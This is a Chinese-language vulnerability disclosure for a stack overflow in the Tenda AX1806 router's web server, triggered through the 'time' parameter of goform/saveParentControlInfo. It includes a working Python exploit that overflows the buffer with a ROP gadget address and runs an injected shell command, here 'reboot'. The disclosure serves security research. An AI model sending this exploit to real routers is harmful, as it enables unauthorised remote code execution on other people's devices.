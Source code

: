 # 漏洞描述

设备：Tenda-AX1806 v1.0.0.1 https://www.tenda.com.cn/download/detail-3306.html

漏洞类型：栈溢出

攻击效果：远程任意代码执行或拒绝服务

# 漏洞成因

该漏洞发生于tdhttpd文件的saveParentControlInfo函数中，goform/saveParentControlInfo页面

首先，saveParentControlInfo函数会调用到sub_60BE0函数

![image-20220209004540591](image/1.png)

而在sub_60BE0函数中，v12来源于http数据包中的time参数

![image-20220209004630375](image/2.png)

接着，该函数会直接调用sscanf函数来将v12切割到栈上，没有任何的安全检测

由此栈溢出发生

通过一串精心构造的time参数，就可以实现任意代码执行，拿到服务器控制权

# POC

任意代码执行的exp：

```python
from pwn import*
import requests

url = "https://192.168.2.1/goform/saveParentControlInfo"

gadget = 0x37208

time =  b"a" * 0x58
time += b";reboot" # command you want to execute
time += b"-"
time += b"b" * 0x34
time += p32(gadget)

r = requests.post(url, data = {"time":time},verify=False )

```

